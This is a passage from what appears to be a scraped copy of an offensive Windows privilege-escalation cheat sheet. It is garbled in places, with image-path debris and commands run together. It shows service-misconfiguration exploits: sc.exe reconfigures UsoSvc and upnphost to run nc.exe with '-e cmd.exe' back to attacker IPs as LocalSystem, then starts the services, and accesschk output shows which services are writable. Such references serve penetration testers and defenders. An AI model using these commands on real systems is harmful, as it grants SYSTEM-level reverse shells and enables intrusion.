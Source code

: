 BINARY_PATH_NAME : C:\Users\mssql-svc\Desktop\nc.exe  10.10.10.10  4444  -e cmd.exe LOAD_ORDER_GROUP : TAG : 0 DISPLAY_NAME : Update Orchestrator Service

DEPENDENCIES : rpcss
SERVICE_START_NAME : LocalSystem
PS C:\Windows\system32>  sc.exe start UsoSvc

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='60'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1885' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-xp-sp1---upnphost)Example with Windows XP SP1 - upnphost

# NOTE: spaces are mandatory for this exploit to work !sc config upnphost binpath=  "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"sc config upnphost obj=  ".\LocalSystem" password=  ""sc qc upnphost

sc config upnphost depend=  ""net start upnphost
If it fails because of a missing dependency, try the following commands.
sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost
sc config upnphost depend=""

Using [`accesschk`](https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe) from Sysinternals or [accesschk-XP.exe - github.com/phackt](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe)

$ accesschk.exe  -uwcqv "Authenticated Users"  *  /accepteula
RW SSDPSRV
SERVICE_ALL_ACCESS
RW upnphost
SERVICE_ALL_ACCESS
$ accesschk.exe  -ucqv upnphost
upnphost
RW NT AUTHORITY\SYSTEM
SERVICE_ALL_ACCESS
RW BUILTIN\Administrators
SERVICE_ALL_ACCESS
RW NT AUTHORITY\Authenticated Users
SERVICE_ALL_ACCESS
RW BUILTIN\Power Users
SERVICE_ALL_ACCESS

